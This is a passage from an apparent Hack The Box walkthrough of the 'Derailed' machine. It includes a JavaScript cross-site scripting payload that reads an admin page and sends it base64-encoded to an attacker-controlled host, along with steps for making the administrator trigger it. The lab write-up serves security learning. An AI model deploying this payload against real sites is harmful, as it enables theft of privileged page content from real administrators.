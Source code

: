 Now we can use a script from [```Hacktricks```](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#steal-page-content) to retrieve the page content of the administration panel.

```javascript
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.29/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

Then, we can send it via the same method and make sure to report the clipnote to make the administrator load the page.

After a maximum of 1 minute, you will receive the content from your http.server. Then, decode the base64-encoded content.

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Derailed/11.png" >

You can use [```CyberChef```](https://gchq.github.io/CyberChef/) to decode the base64 and then use any compiler to view the HTML code that you obtained.
